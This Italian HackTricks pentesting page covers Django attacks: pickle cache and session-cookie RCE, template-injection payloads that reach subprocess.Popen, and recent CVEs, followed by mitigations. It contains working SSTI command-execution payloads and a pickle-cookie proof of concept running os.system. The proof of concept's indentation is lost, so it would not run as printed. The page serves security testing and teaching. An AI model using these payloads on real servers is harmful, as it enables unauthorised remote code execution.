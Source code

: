 # Django

{{#include ../../banners/hacktricks-training.md}}

## Manipolazione della Cache per RCE
Il metodo di archiviazione della cache predefinito di Django è [Python pickles](https://docs.python.org/3/library/pickle.html), che può portare a RCE se [l'input non attendibile viene de-pickled](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Se un attaccante riesce a ottenere accesso in scrittura alla cache, può elevare questa vulnerabilità a RCE sul server sottostante**.

La cache di Django è memorizzata in uno dei quattro luoghi: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [memoria](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [file](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), o un [database](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). La cache memorizzata in un server Redis o in un database è la più probabile vettore d'attacco (iniezione Redis e iniezione SQL), ma un attaccante potrebbe anche essere in grado di utilizzare la cache basata su file per trasformare una scrittura arbitraria in RCE. I manutentori hanno contrassegnato questo come un non-problema. È importante notare che la cartella dei file di cache, il nome della tabella SQL e i dettagli del server Redis varieranno in base all'implementazione.

Questo rapporto di HackerOne fornisce un ottimo esempio riproducibile di sfruttamento della cache di Django memorizzata in un database SQLite: https://hackerone.com/reports/1415436

---

## Iniezione di Template lato Server (SSTI)
Il Django Template Language (DTL) è **Turing-completo**. Se i dati forniti dall'utente vengono resi come una *stringa di template* (ad esempio chiamando `Template(user_input).render()` o quando `|safe`/`format_html()` rimuove l'auto-escaping), un attaccante può ottenere SSTI completo → RCE.

### Rilevamento
1. Cerca chiamate dinamiche a `Template()` / `Engine.from_string()` / `render_to_string()` che includano *qualsiasi* dato di richiesta non sanitizzato.
2. Invia un payload basato su tempo o aritmetico:
```django
{{7*7}}
```
Se l'output reso contiene `49`, l'input è compilato dal motore di template.

### Primitiva a RCE
Django blocca l'accesso diretto a `__import__`, ma il grafo degli oggetti Python è raggiungibile:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Trova l'indice di `subprocess.Popen` (≈400–500 a seconda della build di Python) ed esegui comandi arbitrari:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Un gadget universale più sicuro è iterare fino a `cls.__name__ == 'Popen'`.

Lo stesso gadget funziona per le funzionalità di rendering dei template di **Debug Toolbar** o **Django-CMS** che gestiscono male l'input dell'utente.

---

## RCE con Cookie di Sessione Basato su Pickle
Se l'impostazione `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` è abilitata (o un serializer personalizzato che deserializza pickle), Django *decritta e deserializza* il cookie di sessione **prima** di chiamare qualsiasi codice di vista. Pertanto, possedere una chiave di firma valida (il `SECRET_KEY` del progetto per impostazione predefinita) è sufficiente per un'immediata esecuzione remota di codice.

### Requisiti per l'Exploit
* Il server utilizza `PickleSerializer`.
* L'attaccante conosce / può indovinare `settings.SECRET_KEY` (leak tramite GitHub, `.env`, pagine di errore, ecc.).

### Prova di Concetto
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Invia il cookie risultante e il payload viene eseguito con i permessi del worker WSGI.

**Mitigazioni**: Mantieni il `JSONSerializer` predefinito, ruota `SECRET_KEY` e configura `SESSION_COOKIE_HTTPONLY`.

---

## Recenti (2023-2025) CVE Django ad Alto Impatto che i Pentester Dovrebbero Controllare
* **CVE-2025-48432** – *Iniezione di Log tramite `request.path` non escapato* (risolto il 4 giugno 2025). Consente agli attaccanti di introdurre nuove righe/codici ANSI nei file di log e avvelenare l'analisi dei log a valle. Livello di patch ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Iniezione SQL critica* in `QuerySet.values()/values_list()` su `JSONField` (CVSS 9.8). Crea chiavi JSON per uscire dalle virgolette ed eseguire SQL arbitrario. Risolto in 4.2.15 / 5.0.8.

Fingerprint sempre la versione esatta del framework tramite la pagina di errore `X-Frame-Options` o l'hash di `/static/admin/css/base.css` e testa quanto sopra dove applicabile.

---

## Riferimenti
* Rilascio di sicurezza Django – "Django 5.2.2, 5.1.10, 4.2.22 affrontano CVE-2025-48432" – 4 giu 2025.
* OP-Innovate: "Django rilascia aggiornamenti di sicurezza per affrontare il difetto di iniezione SQL CVE-2024-42005" – 11 ago 2024.

{{#include ../../banners/hacktricks-training.md}}
